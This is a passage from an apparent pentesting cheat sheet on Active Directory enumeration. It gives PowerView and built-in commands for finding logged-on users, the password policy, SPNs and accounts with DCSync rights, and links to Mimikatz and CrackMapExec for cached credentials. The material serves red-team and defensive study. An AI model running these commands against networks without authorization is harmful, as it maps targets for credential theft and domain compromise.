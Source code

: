 ### Enumerate logged in users

```
# Enumerate logged in users
Import-Module .\PowerView.ps1
Get-NetLoggedon -ComputerName computer
Get-NetSession -ComputerName server
```

### Get password policy

```
net accounts
```

### Enumerate SPNs

#### Using inline Powershell

```
$SearchString = "LDAP://dc01.domain.com/DC=domain,DC=com"
$Searcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$SearchString)
$objDomain = New-Object System.DirectoryServices.DirectoryEntry
$Searcher.SearchRoot = $objDomain
$Searcher.filter="(serviceprincipalname=*)"
$Searcher.FindAll()
```

#### Using [Get-SPN](https://github.com/EmpireProject/Empire/blob/master/data/module\_source/situational\_awareness/network/Get-SPN.ps1)

```
Import-Module .\Get-SPN.ps1
Get-SPN -type service -search *
```

Using builtins

```
setspn -T <domain> -Q */*
```

### List Accounts with DCSync Permission

```
PS> dsacls.exe "DC=rccad,DC=net" | select-string "replicat"
```

## Passwords & Hashes

### Cached Credentials

* [Mimikatz](../../toolbox/password-attacks/mimikatz.md)
* [CrackMapExec](https://mpgn.gitbook.io/crackmapexec/smb-protocol/obtaining-credentials)
